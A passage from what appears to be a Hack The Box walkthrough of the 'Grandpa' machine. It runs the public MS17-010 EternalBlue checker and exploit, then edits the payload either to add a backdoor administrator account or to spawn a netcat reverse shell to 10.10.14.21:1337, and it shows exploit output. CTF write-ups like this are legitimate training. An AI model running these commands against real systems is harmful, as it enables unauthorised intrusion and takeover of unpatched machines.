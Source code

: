 We can check if the target is patched for eternalblue with this https://github.com/worawit/MS17-010 : 

```
kali@kali:~/htb/Grandpa$ python ~/MS17-010/checker.py 127.0.0.1
Target OS: Windows Server 2003 R2 3790 Service Pack 2
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (32 bit)
browser: STATUS_OBJECT_NAME_NOT_FOUND
kali@kali:~/htb/Grandpa$ 
```

So we can see that the target is not patched.  And that the samr, and Isarpc pipes are OK.

I copy the script zzz_exploit.py and change the payload.

```
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c net user patchthis passw /add && net localgroup administrators patchthis /add')
```

Or

```
service_exec(conn, r'cmd /c C:\Windows\temp\nc.exe -e cmd.exe 10.10.14.21 1337')
``` 

If you are doing the netcat shell. -e will execute the following file once a connection is made. So we are connecting to 10.10.14.21 on port 1337, and running cmd.exe when it's done. Since, we will run this as root. The following cmd.exe shell will also be as root. 


`net user patchthis passw /add && net localgroup administrators patchthis /add`

Will add a new user patchthis with the password: passw. And it will be added to the administrators group. Note that if you want to copy these files away to not modify the originals, you need to copy mysmb.py as well. As it is required by both checker.py and zzz_exploit.py

```
kali@kali:~/htb/Grandpa$ python zzz_exploit.py 127.0.0.1 lsarpc
Target OS: Windows Server 2003 R2 3790 Service Pack 2
Groom packets
attempt controlling next transaction on x64
attempt controlling next transaction on x86
success controlling one transaction
Target is x86
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x84ff2d48
SESSION: 0xe12a1d38
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
```